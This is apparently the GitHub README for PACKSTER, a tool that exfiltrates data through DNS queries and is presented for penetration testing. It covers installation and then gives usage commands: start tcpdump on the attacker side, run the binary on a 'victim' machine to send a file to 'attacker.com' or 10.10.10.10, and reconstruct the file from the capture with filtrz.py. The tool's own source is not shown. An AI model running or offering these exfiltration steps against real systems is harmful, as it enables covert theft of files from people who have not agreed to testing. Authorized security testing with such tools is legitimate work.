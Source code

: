 # PACKSTER

## Overview
PACKSTER is a powerful exfiltration tool designed for demonstrating efficient data exfiltration and security testing. It allows for controlled and stealthy data exfiltration by utilizing DNS queries, making it a valuable tool for cybersecurity professionals and penetration testers.

## Features
- Fast and reliable data exfiltration
- Supports multiple transport methods
- Customizable payload handling
- Stealth mode for evasion techniques
- Logging and error handling for debugging

## Watch The Demo

[![Packster Demo](https://img.youtube.com/vi/r4g577TrCSw/maxresdefault.jpg)](https://www.youtube.com/watch?v=r4g577TrCSw)

## Installation
### Prerequisites
Ensure you have Python installed on your system. PACKSTER requires Python 3.x.

### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

### Get The [Release Binaries](https://github.com/Sayan690/Packster/releases/)

OR

### Compile It Locally

Requirements - pyinstaller

#### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

#### Compile Using Pyinstaller

```bash
pyinstaller -F packety.py --icon=resources/packster.ico
```

### Install Dependencies
```bash
pip install -r requirements.txt
```

## Usage
To run PACKSTER, follow these steps:

- Start the listener on the attacker side

```bash
tcpdump -i any -w capture.pcap
```

- Transfer the [packster binary](https://github.com/Sayan690/Packster/releases/) to the victim side and execute

```bash
.\packster.exe -f C:\Path\To\File -a attacker.com

./packster.exe -f /Path/To/File -a 10.10.10.10
```

- After the process exits printing "done.", exit out from tcpdump, and run `filtrz.py`

```bash
python3 filtrz.py -a attacker.com -c capture.pcap -o output_file_name.txt
```

## Disclaimer
PACKSTER is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
